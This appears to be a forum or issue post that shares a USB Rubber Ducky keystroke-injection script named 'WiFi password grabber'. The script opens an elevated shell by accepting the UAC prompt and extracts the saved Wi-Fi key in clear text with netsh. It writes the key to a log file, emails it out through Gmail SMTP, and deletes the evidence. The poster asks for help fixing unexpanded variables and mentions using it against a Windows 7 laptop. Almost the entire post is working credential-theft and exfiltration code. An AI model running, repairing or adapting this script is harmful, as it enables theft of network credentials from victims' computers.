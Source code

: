 `REM Title: WiFi password grabber save to twin duck SD
REM Author: silent_noise
REM Original by: Siem
REM Description: Saves the SSID, Network type, Authentication and the password to Log.txt. Then saves to the CD card on the twin duck
REM Adjust time for driver install
DELAY 3000
REM  Minimize all windows
WINDOWS d
REM  Open cmd & bypass UAC
DELAY 500
WINDOWS r
DELAY 200
STRING powershell Start-Process cmd.exe -Verb runAs
ENTER
DELAY 500
ALT y
DELAY 600
REM Define DUCKY drive as %duck%
STRING for /f %d in ('wmic volume get driveletter^, label ^| findstr "DUCKY"') do set duck=%d
ENTER
DELAY 100
REM Getting SSID
STRING cd "%USERPROFILE%\Desktop" & for /f "tokens=2 delims=: " %A in ('netsh wlan show interface ^| findstr "SSID" ^| findstr /v "BSSID"') do set A=%A
ENTER
REM Creating A.txt
STRING netsh wlan show profiles %A% key=clear | findstr /c:"Network type" /c:"Authentication" /c:"Key Content" | findstr /v "broadcast" | findstr /v "Radio">>A.txt
ENTER
REM Get network type
STRING for /f "tokens=3 delims=: " %A in ('findstr "Network type" A.txt') do set B=%A
ENTER
REM Get authentication
STRING for /f "tokens=2 delims=: " %A in ('findstr "Authentication" A.txt') do set C=%A
ENTER
REM Get password
STRING for /f "tokens=3 delims=: " %A in ('findstr "Key Content" A.txt') do set D=%A
ENTER
REM  Delete A.txt
STRING del A.txt
ENTER
REM  Create Log.txt
STRING echo SSID: %A%>>Log.txt & echo Network type: %B%>>Log.txt & echo Authentication: %C%>>Log.txt & echo Password: %D%>>Log.txt
ENTER
DELAY 100 
REM --> Mail Log.txt
STRING powershell
ENTER
STRING $SMTPServer = 'smtp.gmail.com'
ENTER
STRING $SMTPInfo = New-Object Net.Mail.SmtpClient($SmtpServer, 587)
ENTER
STRING $SMTPInfo.EnableSsl = $true
ENTER
STRING $SMTPInfo.Credentials = New-Object System.Net.NetworkCredential('SENDER@gmail.com', 'password')
ENTER
STRING $ReportEmail = New-Object System.Net.Mail.MailMessage
ENTER
STRING $ReportEmail.From = 'SENDER"gmail.com'
ENTER
STRING $ReportEmail.To.Add('RECIEVER"gmail.com')
ENTER
STRING $ReportEmail.Subject = 'WiFi key grabber'
ENTER
STRING $ReportEmail.Body = (Get-Content Log.txt | out-string)
ENTER
STRING $SMTPInfo.Send($ReportEmail)
ENTER
DELAY 1000
STRING exit
ENTER
DELAY 500
REM --> Delete Log.txt and exit
STRING del Log.txt & exit
ENTER`




However When I get the email it comes out like this.
SSID: %A%
Network type: %B%
Authentication: %C%
Password: %D%

Also using it against a windows 7 laptop.